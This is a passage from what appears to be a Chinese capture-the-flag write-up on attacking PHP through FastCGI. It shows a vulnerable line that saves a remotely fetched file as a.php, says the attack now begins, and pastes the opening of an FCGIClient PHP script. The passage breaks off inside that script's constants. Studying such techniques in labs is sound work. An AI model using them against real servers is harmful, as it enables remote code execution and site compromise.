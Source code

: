 ```
file_put_contents("a.php",file_get_contents(ip))
```

![image-20210503212438442](https://i.loli.net/2021/05/03/avnAt8VP794OmZK.png)

![image-20210503212632123](https://i.loli.net/2021/05/03/HE79QP1XTxJyMkh.png)

![image-20210503212653937](https://i.loli.net/2021/05/03/iP3I6FaexhUVC4l.png)

大概就是这么一个流程。下面开始打了。

下面贴上ha牛的脚本

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
```